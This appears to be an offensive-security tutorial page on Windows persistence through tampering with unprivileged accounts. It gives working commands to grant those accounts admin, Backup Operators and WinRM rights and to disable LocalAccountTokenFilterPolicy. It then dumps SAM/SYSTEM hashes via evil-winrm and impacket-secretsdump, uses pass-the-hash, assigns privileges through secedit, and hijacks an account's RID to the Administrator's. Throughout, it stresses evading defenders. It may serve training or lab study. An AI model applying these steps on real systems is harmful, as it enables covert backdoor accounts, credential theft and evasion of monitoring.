 # Tampering with unprivileged accounts

Having administrator credentials is the easiest way to achieve persistence. And to make it harder for the blue team 
to detect us, we can manipulate unprivileged user accounts, which will most likely not be monitored as much as 
administratoraccounts, and grant those administrative privileges.

## Assign group memberships

Assume you have dumped the password hashes of the victim machine and successfully cracked the passwords for the 
unprivileged accounts in use.

The direct way to make an unprivileged user gain administrative privileges is to make it part of the Administrators 
group:

    net localgroup administrators <username> /add

This will allow `username` to access the server by using RDP, WinRM or any other remote administration service 
available.

Alternatively, use the Backup Operators group. Users in this group will not have administrative privileges but 
will be allowed to read/write any file or registry key on the system, ignoring any configured DACL. This would allow 
for copying the content of the `SAM` and `SYSTEM` registry hives, which can be uses to recover password hashes for 
all the users, enabling escalation to any administrative account.

    net localgroup "Backup Operators" <username> /add

Such an account cannot `RDP` or `WinRM` back into the machine unless it is added it to the Remote Desktop Users (RDP) 
or Remote Management Users (WinRM) groups:

    net localgroup "Remote Management Users" <username> /add

And, `LocalAccountTokenFilterPolicy` strips any local account of its administrative privileges when logging in 
remotely. While being able to elevate privileges through UAC from a graphical user session, when using WinRM, 
the account is confined to a limited access token with no administrative privileges.

To regain administration privileges for the account, disable `LocalAccountTokenFilterPolicy` by changing this 
registry key to 1:

    reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
        
To check the backdoor user is working, establish a `WinRM` connection and check that the Backup Operators group is 
enabled the `username` account.

    evil-winrm -i <IP target> -u <username> -p <password>

Make a backup of `SAM` and `SYSTEM` files and download:

```text
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

Dump the password hashes for all users using for example, `secretsdump.py` from 
[impacket](https://www.kali.org/tools/impacket/) or another similar tool:

    impacket-secretsdump -sam sam.bak -system system.bak local

Pass-the-Hash to connect to the target machine with Administrator privileges:

    evil-winrm -i <IP target> -u Administrator -H <hash>

## Special privileges and security descriptors

[Privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) are the capacity to do a 
task on the system, like having the capabilities to shut down the server or being able to take ownership of any file 
on the system.

Such privileges can be assigned to any user, regardless of group memberships.

Export the current configuration to a temporary file:

    secedit /export /cfg config.inf

Open the file:

| ![Config.inf](../../_static/images/Screenshot from 2022-10-09 21-50-44.png) |
|:--:|
| Add `username` at the end of the lines for `SeBackupPrivilege` and `SeRestorePrivilege` |

Convert the `.inf` file into a `.sdb` file and use it to load the configuration back into the system:

    secedit /import /cfg config.inf /db config.sdb
    
    secedit /configure /db config.sdb /cfg config.inf

`username` now has equivalent privileges to any Backup Operator, but can not log into the system via `WinRM`. 
Instead of adding the user to the `Remote Management Users` group, change the security descriptor associated with 
the WinRM service to allow `username` to connect. 

Open the configuration window for changing `WinRM` security descriptor:

    Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI

This will open a window:

| ![Security descriptor window](../../_static/images/Screenshot from 2022-10-09 21-55-30.png) |
|:--:|
| Add `username` and assign full privileges to connect to WinRM |

Now `username` can connect via WinRM and having `SeBackup` and `SeRestore` privileges, and after changing the 
`LocalAccountTokenFilterPolicy` registry key, can do the steps to recover the password hashes from the SAM and 
connect back with the Administrator user.

Advantage of this method over group membership assignment is that `username` will look like a regular user when 
groups are checked. Nothing to see here.

## RID hijacking

When a user is created, an identifier called Relative ID (`RID`) is assigned to the user. This RID is a numeric 
identifier representing the user across the system. When a user logs on, the `LSASS` process gets the associated 
`RID` from the `SAM` registry hive and creates an access token associated with that `RID`. If we can tamper with 
the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating 
the same RID to both accounts.

In any Windows system, the default Administrator account is assigned the `RID = 500`, and regular users usually have 
a `RID >= 1000`.

To find the assigned RIDs for any user:

    wmic useraccount get name,sid

The `SID` is an identifier that allows the operating system to identify a user across a domain. The last number group 
is the `RID`. 

To assign a `RID=500` to `username`, access the SAM using Regedit. The SAM is restricted to the SYSTEM account only, 
not even Administrators can edit it. To run `Regedit` as `SYSTEM`, use `psexec`, available in `C:\tools\pstools`:

    C:\tools\pstools> PsExec64.exe -i -s regedit

In Regedit, go to `HKLM\SAM\SAM\Domains\Account\Users\` where there will be a key for each user in the machine. 
To modify `username`, search for a key with its `RID` in `hex`. Under the corresponding key, there will be a value 
called `F`, which holds the user's effective `RID` at position 0x30:

| ![Registry](../../_static/images/Screenshot from 2022-10-09 22-00-53.png) |
|:--:|
| Replace RID |

The RID is stored using little-endian notation, so its bytes appear reversed. Replace those two bytes with the 
RID of Administrator in hex (500 = `0x01F4`), and switching around the bytes =`F401`.

The next time `username` logs in, `LSASS` will associate it with the same `RID` as Administrator and grant them the 
same privileges.
        

